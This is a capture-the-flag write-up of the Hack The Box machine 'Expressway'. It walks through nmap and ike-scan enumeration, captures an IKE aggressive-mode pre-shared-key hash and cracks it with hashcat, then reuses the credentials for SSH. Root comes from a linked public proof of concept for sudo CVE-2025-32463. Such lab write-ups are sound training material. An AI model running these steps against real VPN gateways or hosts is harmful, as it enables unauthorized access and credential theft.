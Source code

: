 ```yaml
---
slug: /write-up/htb/machines/easy/expressway
pagination_next: null
pagination_prev: null
draft: true
---
```


## Enumeration

Initial `nmap` scan reveals only TCP port 22 open:

```bash
└─$ nmap -A -p 22 -n -Pn 10.10.11.87    
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-10 00:46 CEST
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing Traceroute
Traceroute Timing: About 32.26% done; ETC: 00:46 (0:00:00 remaining)
Nmap scan report for 10.10.11.87
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.0p2 Debian 8 (protocol 2.0)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   185.19 ms 10.10.14.1
2   185.47 ms 10.10.11.87
```

Since there are not interested TCP ports, let's check UDP scan:

```bash
└─$ nmap 10.10.11.87 -sU --min-rate 5000 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-10 00:54 CEST
Nmap scan report for 10.10.11.87
Host is up (0.20s latency).
Not shown: 993 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
500/udp   open   isakmp
9876/udp  closed sd
19632/udp closed unknown
19647/udp closed unknown
33281/udp closed unknown
34577/udp closed unknown
49159/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 1.55 seconds
```

Port 500 UDP is used for `isakmp`. `isakmp` just defines a framework for key exchanges, the implementation is most likely donee with `IKE`. All of this is usually used for IPSec VPN.

## Foothold: Pentesting IKE

This [article](https://book.hacktricks.wiki/en/network-services-pentesting/ipsec-ike-vpn-pentesting.html) defines some things we could check regarding missconfiguration of IKE implementation.

First of all, we need to determine if our computer can find any security combination (encrpytor, hash, etc ...) that allows communication with the IPSec gateway:

```bash
└─$ ike-scan -M 10.10.11.87
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87     Main Mode Handshake returned
        HDR=(CKY-R=24b54798c0797fdc)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
        VID=09002689dfd6b712 (XAUTH)
        VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)

Ending ike-scan 1.9.6: 1 hosts scanned in 0.295 seconds (3.39 hosts/sec).  1 returned handshake; 0 returned notify
```

`1 returned handshake` means there's at least one `SA` combination available for communication. The combination shows it is used `psk` a pre-shared key.

IKE offers two modes of negotiation, `Main mode` and `Aggressive mode`. According to [NSC](https://netseccloud.com/ike-aggressive-vs-main-mode):

- `Main mode`: Main Mode operates through a six-message exchange process, meticulously safeguarding the identities of the communicating parties through encryption. This mode is synonymous with robust security measures, ensuring that critical information remains concealed during the negotiation phase. Main Mode is the go-to choice in scenarios where identity protection and security are paramount. Its structured negotiation process makes it suitable for static IP environments, where the slight delay introduced by its thoroughness is a worthy trade-off for enhanced security.

- `Aggressive mode`: Aggressive Mode simplifies the negotiation process to just three messages, significantly speeding up the establishment of the VPN connection. Unlike Main Mode, it does not encrypt the identities of the negotiating parties in the initial messages, which can have implications for security but benefits the connection time. Aggressive Mode is particularly useful in scenarios where speed is a critical factor or when dynamic IP addresses are involved. Its ability to quickly establish VPN connections makes it ideal for situations requiring rapid, on-demand secure communications, such as remote access for mobile users.

In aggressive mode, if we managed to determine the `groupId` to use, we can get a hash of the pre-shared key. In this case getting the `groupId` was as easy as initiate the communication with aggressive mode:

```bash
└─$ ike-scan -A -M 10.10.11.87
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87     Aggressive Mode Handshake returned
        HDR=(CKY-R=773b1e6b116f6957)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
        KeyExchange(128 bytes)
        Nonce(32 bytes)
        ID(Type=ID_USER_FQDN, Value=ike@expressway.htb)
        VID=09002689dfd6b712 (XAUTH)
        VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)
        Hash(20 bytes)

Ending ike-scan 1.9.6: 1 hosts scanned in 0.306 seconds (3.27 hosts/sec).  1 returned handshake; 0 returned notify
```

This is the line we're interested: `ID(Type=ID_USER_FQDN, Value=ike@expressway.htb)`. Now that we got the `groupId`, we can use it to retrieve the PSK hash:

```bash
└─$ ike-scan -A -n "ike@expressway.htb" --pskcrack=/tmp/hash.txt -M 10.10.11.87
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87     Aggressive Mode Handshake returned
        HDR=(CKY-R=01043def9bbb7c8f)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
        KeyExchange(128 bytes)
        Nonce(32 bytes)
        ID(Type=ID_USER_FQDN, Value=ike@expressway.htb)
        VID=09002689dfd6b712 (XAUTH)
        VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)
        Hash(20 bytes)

Ending ike-scan 1.9.6: 1 hosts scanned in 2.298 seconds (0.44 hosts/sec).  1 returned handshake; 0 returned notify
```

The hash is stored in `/tmp/hash.txt`. Now we can use hashcat to brute-force it.

```bash
hashcat -m 5400 /tmp/hash.txt -a 0  /usr/share/wordlists/rockyou.txt
```

And we got the pre-shared key. My initial idea was to try to connect to the IPSec tunnel and see what to go from there. Unfortunately, I couldn't do that because there's an additional layer of security (`XAUTH`) which ask for user and password.

The funny thing is that the discover user and password can be re-used to connect to the machine via SSH. This way we get access to the user flag.

## Privilege escalation

Looks like the sudo version is vulnerable to CVE-2025-32463: [https://github.com/K1tt3h/CVE-2025-32463-POC](https://github.com/K1tt3h/CVE-2025-32463-POC).

CVE-2025-32463 is a local privilege escalation vulnerability in sudo versions 1.9.14 through 1.9.17.

```bash
ike@expressway:/home$ sudo --version
Sudo version 1.9.17
Sudoers policy plugin version 1.9.17
Sudoers file grammar version 50
Sudoers I/O plugin version 1.9.17
Sudoers audit plugin version 1.9.17
```

To achieve `root` access, it was as easy as downloading the POC from the github repo and running it in the machine.